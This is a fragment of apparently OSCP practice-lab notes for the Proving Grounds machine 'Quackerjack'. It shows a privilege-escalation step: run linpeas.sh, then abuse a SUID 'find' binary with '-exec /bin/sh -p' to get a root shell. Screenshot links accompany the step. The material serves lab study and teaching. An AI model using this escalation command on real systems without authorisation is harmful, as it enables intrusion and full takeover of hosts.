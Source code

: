 
#### Privilege Escalation

execute linpeas.sh

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Quackerjack/Quackerjack_2021.07.01_23h17m45s_001_.png)

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

```
https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Quackerjack/Quackerjack_2021.07.01_23h21m38s_003_.png
```
